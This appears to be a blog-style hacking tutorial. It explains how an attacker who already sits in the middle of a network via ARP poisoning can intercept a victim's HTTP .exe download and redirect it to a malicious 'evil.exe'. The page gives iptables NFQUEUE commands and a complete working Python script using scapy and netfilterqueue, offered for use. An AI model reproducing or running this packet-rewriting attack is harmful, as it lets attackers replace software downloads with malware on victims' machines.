 ```yaml
---
title: "Modifying HTTP download response"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data.  
In this case we check if the victim is downloading a .exe file and we are changing the response from the server so that it includes are own malicious payload.  

We do check against the destination port (dport) and source port (sport). When a sport is present it is a response, when a dport is present it is a request.   

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://bxg7.github.io/owned/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  

```python
# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            if ".exe" in scapy_packet[scapy.Raw].load and "localhost" not in scapy_packet[scapy.Raw].load:
                print("[+] exe Request")
                # add the TCP - ACK number of the TCP packet (the HTTP request packet) to a seperate list so we can check that
                # against the TCP - SEQ number in the response
                ack_list.append(scapy_packet[scapy.TCP].ack)
        elif scapy_packet[scapy.TCP].sport == 80:
            # check if response corresponds to a request in our ack list
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file")
                modified_packet = set_load(scapy_packet,
                                           # note the trailing newlines
                                           "HTTP/1.1 301 Moved Permanently\nLocation: http://localhost:8000/Downloads/evil.exe\n\n")
                packet.set_payload(str(modified_packet))

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
